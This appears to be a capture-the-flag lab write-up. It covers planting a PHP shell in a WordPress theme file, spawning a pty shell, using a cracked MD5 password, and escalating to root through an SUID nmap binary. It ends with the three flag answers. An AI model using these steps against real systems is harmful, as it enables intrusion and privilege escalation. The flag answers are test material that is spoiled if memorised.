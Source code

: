 * change aparence editor file with code php shell **archive.php**
* access url modify file
  > http://$IP/wp-content/themes/twentyfifteen/archive.php
* **Update file**

## Escalation privilege crack md5 hash

1.  spaw shell with python
    ```python
     python -c 'import pty; pty.spawn("/bin/sh")'
    ```
2.  login **su robot** with password md5 cracked
    - The MD5 hash:
      > c3fcd3d76192e4007dfb496cca67e13b
    - was succesfully reversed into the string:
      > abcdefghijklmnopqrstuvwxyz
3.  find tool permission root and choose **nmap**

    ```bash
         find / -user root -perm -4000 2>/dev/null
    ```

    - help find command >https://gtfobins.github.io/#nmap

    - use command

      ```bash
      nmap --interactive
      ```

      ```bash
      !sh | whoami
      ```

# Answer the questions below

1. What is key 1?
   > 073403c8a58a1f80d943455fb30724b9
2. What is key 2?
   > 822c73956184f694993bede3eb39f959
3. What is key 3?
   > 04787ddef27c3dee1ee161b21670b4e4
